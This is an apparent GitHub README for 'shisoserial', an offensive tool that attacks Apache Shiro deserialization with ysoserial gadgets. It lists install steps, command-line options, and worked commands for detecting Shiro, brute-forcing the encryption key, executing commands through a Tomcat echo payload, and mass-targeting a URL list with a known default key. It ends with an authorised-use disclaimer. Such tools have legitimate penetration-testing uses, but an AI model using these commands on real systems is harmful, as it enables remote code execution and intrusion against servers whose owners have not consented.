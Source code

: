 

# shisoserial

## What is this

A simple tool targeted at shiro framework attacks with ysoserial.

## Contributor

[4nth0ny](https://github.com/4nth0ny1130) @Friday_lab

## Runtime

*   python 3.x

*   JDK 1.8

## Installation

```
python3 -m pip install -r requirements.txt
```

for `AttributeError: module 'Crypto.Cipher.AES' has no attribute 'MODE_GCM'` or `No module named 'Crypto'`

```
python3 -m pip uninstall crypto pycryptodome
python3 -m pip install pycryptodome
```

## Usage

```
usage: shisoserial.py [-h] --mode MODE --url  [--type default:CBC] [--data] [--key] [--gadget] [--command default:whoami] [--proxies] [--ser]

This is a simple tool to attack framework shiro with ysoserial

optional arguments:
  -h, --help            show this help message and exit
  --mode MODE, -m MODE  check/crack/yso/echo/encode
  --url , -u            Target URL address or the file containing the target URL
  --type default:CBC, -t default:CBC
                        Cipher Type, GCM or CBC
  --data , -d           Using this parameter will make HTTP request with POST method
  --key , -k            Specify a Shiro Key or will use dictionary brute force cracking
  --gadget , -g         Specific Ysoserial Gadget
  --command default:whoami, -c default:whoami
                        Specific Execute Command
  --proxies , -p        Specific Proxy
  --ser , -s            Specific serialize file name
```

## Expample

### Check if shiro framework (default CBC mode)

```
python3 shisoserial.py -m check -u http://127.0.0.1:8080
```

![](README.assets/image-20211229165754332.png)

### Use proxy angent cracking the shiro key with CBC mode

```
python3 shisoserial.py -m crack -u http://*.*.*.*:**** -t CBC -p http://*.*.*.*:****/
```

![](README.assets/image-20211229171904315.png)

### Use Tomcat echo payload attack with  CommonsCollectionsK1 gadget (no DNSlog used)

```
python3 shisoserial.py -m echo -u http://127.0.0.1:8080 -g CommonsCollectionsK1 -c id
```

![](README.assets/image-20211229175021680.png)

### Mass use specified shiro key with Post method

```
python3 shisoserial.py -m crack -u target_urls.txt -k kPH+bIxk5D2deZiIxcaaaA== -d username=1
```

![](README.assets/image-20211229173836486.png)

### Use serialize file generate payload

```
python3 shisoserial.py -m encode -u http://127.0.0.1:8080 -s 1.ser
```

![](README.assets/image-20211229175637985.png)

## Disclaimer

This tool can only be used in the safety construction of enterprises with sufficient legal authorization. During the use of this tool, you should ensure that all your actions comply with local laws and regulations. If you have any illegal behavior in the process of using this tool, you will bear all the consequences yourself, and all developers and all contributors of this tool will not bear any legal and joint liability.

